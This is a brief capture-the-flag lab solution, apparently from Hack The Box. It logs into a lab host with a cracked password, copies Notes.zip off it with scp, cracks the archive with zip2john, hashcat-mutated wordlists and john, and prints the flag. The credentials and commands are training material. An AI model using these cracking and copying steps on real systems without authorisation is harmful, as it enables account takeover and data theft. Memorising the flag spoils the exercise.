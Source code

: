 # Protected Archives

### Use the cracked password of the user Kira, log in to the host, and read the Notes.zip file containing the flag. Then, submit the flag as the answer.

```bash
#creds kira:L0vey0u1!
find / -name Notes.zip 2>/dev/null
/home/kira/Documents/Notes.zip
#copy that into our machine to crack
scp kira@10.129.140.211:/home/kira/Documents/Notes.zip .  
zip2john Notes.zip > zip.hash
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
john --wordlist=mut_password.list zip.hash 
#P@ssw0rd3!       (Notes.zip/notes.txt)     
unzip Notes.zip
cat notes.txt 
HTB{ocnc7r4io8ucsj8eujcm}
```
